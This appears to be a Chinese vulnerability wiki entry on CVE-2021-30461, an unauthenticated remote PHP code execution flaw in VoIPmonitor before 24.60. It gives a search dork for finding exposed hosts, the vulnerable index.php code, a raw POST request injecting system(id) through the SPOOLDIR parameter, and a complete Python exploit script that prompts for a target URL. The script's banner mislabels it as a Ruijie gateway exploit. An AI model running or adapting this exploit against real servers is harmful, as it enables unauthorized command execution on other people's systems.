



VoIPmonitor 远程命令执行漏洞 CVE-2021-30461¶
漏洞描述¶
VoIPmonitor是“具有在Linux上运行的SIP RTP和RTCP VoIP协议的具有商业前端的开源网络数据包嗅探器”。
使用通过Web界面到达的用户提供的数据，允许未经身份验证的远程用户触发VoIPmonitor中的远程PHP代码执行漏洞。
漏洞影响¶
VoIPmonitor < 24.60
网络测绘¶
"VoIPmonitor"
漏洞复现¶
登录页面如下
index.php文件中的关键代码
$setConfigurationTypeValue_rslt = array();
if(file_exists('config/configuration.php')) {
$existsConfiguration = true;
if(isset($_POST['recheck'])) {
if(!empty($_POST['SPOOLDIR'])) {
setConfigurationTypeValue__index('SPOOLDIR', $_POST['SPOOLDIR']);
}
}
传入参数 recheck 和 SPOOLDIR， 并将**SPOOLDIR** 写入 config/configuration.php 中

发送如下请求包
POST /index.php HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Accept-Language: en-US,en;q=0.5
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 49
SPOOLDIR=test%22.system%28id%29.%22&recheck=annen

成功执行命令
漏洞POC¶
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from : http://wiki.peiqi.tech
import base64
import requests
import random
import re
import json
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning
def title():
print('+------------------------------------------')
print('+ \033[34mPOC_Des: http://wiki.peiqi.tech \033[0m')
print('+ \033[34mGithub : https://github.com/PeiQi0 \033[0m')
print('+ \033[34m公众号 : PeiQi文库 \033[0m')
print('+ \033[34mVersion: 锐捷EG网关 cli.php RCE \033[0m')
print('+ \033[36m使用格式: python3 poc.py \033[0m')
print('+ \033[36mUrl >>> http://xxx.xxx.xxx.xxx \033[0m')
print('+------------------------------------------')
def POC_1(target_url):
vuln_url = target_url + "/index.php"
data = {"SPOOLDIR": "/tmp", "recheck": "annen"}
headers = {
"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
"Content-Type": "application/x-www-form-urlencoded"
}
try:
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
response = requests.post(url=vuln_url, data=data, headers=headers, verify=False)
except Exception as e:
print("\033[31m[x] 请求失败:{} \033[0m".format(e))
sys.exit(0)
POC_2(target_url)
def POC_2(target_url):
vuln_url = target_url + "/index.php"
headers = {
"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
"Content-Type": "application/x-www-form-urlencoded"
}
data = {"SPOOLDIR": "test\".system(id).\"", "recheck": "annen"}
print("\033[36m[o] 正在执行命令 id .....\033[0m")
try:
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
response = requests.post(url=vuln_url, data=data, headers=headers, verify=False)
if "uid=" in response.text:
print("\033[36m[o] 成功执行 id, 目标存在漏洞.....\033[0m")
else:
print("\033[31m[x] 请求失败 \033[0m")
exit()
except Exception as e:
print("\033[31m[x] 请求失败:{} \033[0m".format(e))
sys.exit(0)
if __name__ == '__main__':
title()
target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
POC_1(target_url)
